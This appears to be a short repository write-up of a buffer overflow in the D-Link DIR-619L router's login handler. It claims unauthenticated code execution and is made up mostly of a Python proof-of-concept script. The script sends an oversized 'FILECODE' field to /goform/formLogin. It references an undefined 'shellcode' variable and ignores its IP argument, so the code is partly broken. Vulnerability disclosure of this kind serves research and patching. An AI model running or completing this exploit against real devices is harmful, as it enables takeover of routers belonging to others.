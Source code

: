 # dir_619l-buffer-overflow


The router is set to open the graphical login. An unauthorized attacker can send attack packets to cause code execution.

poc:

import requests
import sys
import struct
import string
import base64
def login(shellcode,user,password,ip):
	postData = {
	'login_name':'yuanshuo',
	'curTime':"12345",
	'FILECODE':"a"*300,
	'VER_CODE':'vercode',
	'VERIFICATION_CODE':'12345',
	'login_n':user,
	'login_pass':password,
	}
	response = requests.post('http://192.168.1.1/goform/formLogin',data=postData)
        
        #print 'http://' + ip + '/goform/formLogin'
        print response.json


if __name__ == "__main__":
	login(shellcode,'admin', base64.b64encode('shuoshuo110'),'192.168.1.1')
